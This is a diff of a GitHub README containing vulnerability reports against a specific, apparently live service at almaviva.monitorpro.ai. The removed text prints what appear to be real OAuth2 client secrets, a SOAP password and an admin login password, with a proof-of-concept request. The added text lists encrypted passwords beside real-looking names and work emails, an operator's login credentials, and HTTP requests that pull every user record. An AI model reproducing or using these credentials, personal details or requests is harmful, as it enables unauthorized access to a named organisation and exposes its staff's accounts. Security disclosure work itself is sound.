

Before and after one commit to K2uci/OnlyCubans, a Markdown page: Readme.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Readme.md
+++ b/Readme.md
@@ -6,56 +6,70 @@
 
 ## Description
 
-## Summary
-The MonitorPro application exposes sensitive OAuth2 and SOAP service credentials to all authenticated users through the login API response. This includes client secrets, service passwords, and authentication configuration that should never be transmitted to client applications.
+## Vulnerability Summary
+The MonitorPro application exposes all user passwords in CryptoJS AES encrypted format through the user management API endpoint. This is a critical information disclosure vulnerability as the passwords are using reversible encryption instead of proper one-way password hashing, and the endpoint lacks proper access controls allowing low-privilege operators to access all user credentials.
 
 ## Affected Endpoint
-- **URL:** https://almaviva.monitorpro.ai/api/users/login
-- **Method:** POST
-- **Content-Type:** application/json
+- **URL**: https://almaviva.monitorpro.ai/api/users/V2/maintenance/all
+- **Method**: GET
+- **Authentication**: Any authenticated user (admin OR operator role)
 
-## Vulnerability Details
-When any user (regardless of role) authenticates to the application, the API response includes the complete customer configuration object containing sensitive service credentials:
+## Technical Details
 
-### Exposed Credentials:
-| Credential | Value | Purpose |
-|------------|-------|---------|
-| passwordSoapService | VlAk13MY9tdBH7t9muhbWwE2jpz3q1 | SOAP Web Service Authentication |
-| client_id | external-client-almavivaglobal01 | OAuth2 Client Identifier |
-| client_secret | MubXNes8ec1vCfGpJpWrAMVivcXKjV9x | OAuth2 Client Secret |
-| userSoapService | ALMAVIVA | SOAP Service Username |
-| grant_type | client_credentials | OAuth2 Grant Type |
+### Vulnerable Response
+The API returns user objects containing the `password` field with CryptoJS AES encrypted values:
+
+```json
+{
+  "total": 8,
+  "total_pages": 1,
+  "current_page": 1,
+  "data": [
+    {
+      "_id": "5dcdc96f59f0d52f48207be1",
+      "username": "admin",
+      "email": "admin",
+      "password": "U2FsdGVkX19gvyWnbLjmV8mR3GsSc5YGZ1EFUukr6Ow=",
+      ...
+    },
+    ...
+  ]
+}
+```
+
+### Exposed Encrypted Passwords (8 Users Total)
+| Username | Email | Encrypted Password |
+|----------|-------|-------------------|
+| admin | admin | U2FsdGVkX19gvyWnbLjmV8mR3GsSc5YGZ1EFUukr6Ow= |
+| null | null | U2FsdGVkX195TNxcCGhrLyUn6NTOj/ll |
+| supNull | supNull | U2FsdGVkX18FoqP/xw4DhozUrMy0AdKZ |
+| BOT | BOT | U2FsdGVkX19j7k/iQXLXuPS3HeJjHsZ3WoPlN8wneR8= |
+| LUIS MOZO | lmozo@almaviva.com.co | U2FsdGVkX19TVLMeXmUp9NieWRfr18a86yh0oPUgttE= |
+| CLAUDIA VARGAS | cplopez@almaviva.com.co | U2FsdGVkX1/m8tYSRiEx1aM64hVuy/7v3z+qmNypfRFNl4FpFXqQEg== |
+| TestIntrust | testintrust | U2FsdGVkX1/9lc+nPbze3g06QVEaaHR01WhkORcDtbM= |
+| johany chacon | jchacon@intrustsecurity.co | U2FsdGVkX18z61oXxZYsa+NQ4qO/V5x5 |
+
+### Encryption Analysis
+- **Format**: CryptoJS AES encrypted strings
+- **Base64 Decoded Prefix**: `Salted__` (8 bytes) followed by 8-byte salt and ciphertext
+- **Encryption Type**: Reversible symmetric encryption (NOT proper password hashing)
+- **Key Derivation**: CryptoJS uses EVP_BytesToKey with MD5 for key derivation
 
 ## Proof of Concept
 
-### Request:
+### Step 1: Login as Low-Privilege Operator
 ```http
 POST /api/users/login HTTP/1.1
 Host: almaviva.monitorpro.ai
 Content-Type: application/json
 
-{"email":"admin","password":"1futuro2@26"}
+{"email":"jchacon@intrustsecurity.co","password":"test123"}
 ```
 
-### Response (truncated):
-```json
-{
-  "user": {
-    "_id": "5dcdc96f59f0d52f48207be1",
-    "username": "admin",
-    "customer": {
-      "_id": "5d76977d69b6021ddc86b112",
-      "name": "ALMAVIVA",
-      "document": 800233052,
-      "userSoapService": "ALMAVIVA",
-      "passwordSoapService": "VlAk13MY9tdBH7t9muhbWwE2jpz3q1",
-      "client_id": "external-client-almavivaglobal01",
-      "client_secret": "MubXNes8ec1vCfGpJpWrAMVivcXKjV9x",
-      "grant_type": "client_credentials",
-      "urldomain": "almaviva.monitorpro.ai"
-    }
-  },
-  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
-}
+### Step 2: Access User Management Endpoint
+```http
+GET /api/users/V2/maintenance/all?page=1&pageSize=100 HTTP/1.1
+Host: almaviva.monitorpro.ai
+Authorization: Bearer <operator_jwt_token>
 ```
 
````
Also changed, not shown: other parts of Readme.md (+63 -28 lines).
